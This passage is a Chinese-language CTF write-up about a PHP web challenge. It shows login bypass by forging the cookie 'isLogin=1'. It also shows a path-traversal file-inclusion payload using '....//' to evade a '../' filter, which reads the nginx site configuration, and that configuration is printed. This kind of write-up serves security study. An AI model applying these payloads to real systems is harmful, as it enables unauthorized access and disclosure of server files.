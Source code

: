 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20200804222338560.png)

当我们进入Hack.php时，**提示请登录**并跳转回了登录界面，我们抓包看看。发现Cookie的值为`isLogin=0`，我们猜测如果改为1，是不是就算我们登录了

```
Cookie: isLogin=1
```

ok，成功登录Hack.php

![技术分享图片](http://image1.bubuko.com/info/202006/20200626204948682873.png)

之前想到，nginx有个配置文件有问题，猜测我们需要文件包含读取该文件，这里就需要我们去找到文件包含的上传点了。

最后，我们在点击管理中心这里发现URL发生了变化，`/admin/admin.php?file=index&ext=php` 这里有个file 这里多半是文件包含的地点了

测试`../`和ext去除

- 发现`../`被过滤但可以用`....//`
- 发现`?file=index&ext=`没出现continue，但`?file=index.php&ext=`出现continue，这里事后查了查大概是前面强制跳转到index，后面成功读取index.php

故可结合hint给出的文件做payload

```
file=....//....//....//....//etc/nginx/sites-enabled/site.conf&ext=
```

我们就得到了nginx的配置文件

```php
server {
    listen 8080; ## listen for ipv4; this line is default and implied
    listen [::]:8080; ## listen for ipv6

    root /var/www/html;
    index index.php index.html index.htm;
    port_in_redirect off;
    server_name _;

    # Make site accessible from http://localhost/
    #server_name localhost;

    # If block for setting the time for the logfile
    if ($time_iso8601 ~ "^(\d{4})-(\d{2})-(\d{2})") {
       set $year $1;
       set $month $2;
       set $day $3;
    }
    # Disable sendfile as per https://docs.vagrantup.com/v2/synced-folders/virtualbox.html
    sendfile off;

        set $http_x_forwarded_for_filt $http_x_forwarded_for;
        if ($http_x_forwarded_for_filt ~ ([0-9]+\.[0-9]+\.[0-9]+\.)[0-9]+) {
                set $http_x_forwarded_for_filt $1???;
        }

    # Add stdout logging

    access_log /var/log/nginx/$hostname-access-$year-$month-$day.log openshift_log;
    error_log /var/log/nginx/error.log info;

    location / {
        # First attempt to serve request as file, then
        # as directory, then fall back to index.html
        try_files $uri $uri/ /index.php?q=$uri&$args;
        server_tokens off;
    }

```